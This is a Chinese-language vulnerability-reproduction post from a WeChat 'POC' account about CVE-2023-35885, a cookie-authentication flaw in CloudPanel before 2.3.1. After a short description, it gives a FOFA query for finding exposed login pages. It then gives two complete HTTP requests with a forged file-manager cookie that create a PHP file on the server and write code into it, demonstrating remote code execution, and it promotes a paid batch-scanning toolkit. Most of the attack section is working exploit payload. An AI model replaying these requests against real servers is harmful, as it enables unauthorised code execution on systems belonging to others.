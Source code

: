 #  CloudPanel makefile接口存在远程命令执行漏洞CVE-2023-35885 附POC软件   
南风徐来  南风漏洞复现文库   2024-01-20 21:04  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
**大家关注一下我的另外一个公众号，这个公众号也会发POC，两个公众号发的漏洞不一样，基本每天更新。**  
  
  
****## 1. CloudPanel 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
CloudPanel 是一个基于 Web 的控制面板或管理界面，旨在简化云托管环境的管理。它提供了一个集中式平台，用于管理云基础架构的各个方面，包括 （VM）、存储、网络和应用程序。  
## 2.漏洞描述  
  
CloudPanel是CloudPanel开源的一款免费软件。用于配置和管理服务器。CloudPanel 2.3.1之前版本存在安全漏洞，该漏洞源于具有不安全的文件管理器cookie身份验证。  
  
CVE编号:CVE-2023-35885  
  
CNNVD编号:CNNVD-202306-1507  
  
CNVD编号:  
## 3.影响版本  
  
CloudPanel 2.3.1之前版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7NcQCwUFmxwRLCibsjyuicnmXR1XdJFGTzPWMtuMC8vPfMVZpMiciaCdBlQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
CloudPanel file-manager/backend/makefile接口存在远程命令执行漏洞  
## 4.fofa查询语句  
  
title=="CloudPanel | Log In"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/file-manager/backend/makefile  
  
漏洞数据包：  
```
POST /file-manager/backend/makefile HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 44
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=180015.php
```  
  
创建文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7XW3FBYJia3QtccoVrib7yc9MXibLibYKT6RyUVd7Xx9yibceSQa2gicfFc0g/640?wx_fmt=jpeg&from=appmsg "null")  
```
POST /file-manager/backend/text HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 85
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/180015.php&content=<?php echo '180015';unlink(__FILE__)?>
```  
  
写内容进文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7XW3FBYJia3QtccoVrib7yc9MXibLibYKT6RyUVd7Xx9yibceSQa2gicfFc0g/640?wx_fmt=jpeg&from=appmsg "null")  
  
文件路径：https://127.0.0.1/180015.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7GqmA51diaCOLr1AwgIuplpr4fPyvnMupXEQqWMZhPw19r6jrwAoxWAw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7v82UV9CUSwHDArN3ANRVNk2icCgrPnqb6f8g28UAVtnpZ8lOc1eoh2A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7GHTovFN6hLSkFwHpdQVIColLibToJP3ehlDeyw2nHYp1dLb6D4Zgiclw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7vkRhZshyT08eXyA6mI2ibfW6eDdLvT6xYwSxaxPa3qnnz3Z5gHhXdZA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7FZNqBibb5qhibwrdozxC15LxtAibyj1cnH3FnrWRYVHAng2sy2TgaKxPQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y2GicFric6jjZ4kBGApicjMr7cryxGn1tFmYssiaXhjhG15pKDnVegAASib3u3rYzHic8WVJhtmpR14Oqg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
官方补丁 https://www.cloudpanel.io/docs/v2/changelog/  
## 8.往期回顾  
  
[Yearning存在任意文件读取漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485110&idx=1&sn=2d81d412f8eb45bae8aa6ce52cf991f2&chksm=974b8bb1a03c02a71a12d47e92d4f29eb599caa2f22f9806c38b1274d7f6e878e3e812d3c392&scene=21#wechat_redirect)  
  
  
[likeshop开源免费商用电商系统存在任意文件上传漏洞CVE-2024-0352 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485089&idx=1&sn=098ab0fe5a8747c013dd96a6e8c0279a&chksm=974b8ba6a03c02b0db9d39ed9270754a8adf4d747b129b4fa1b17662e7e2744ce835966c20a5&scene=21#wechat_redirect)  
  
  
  
  
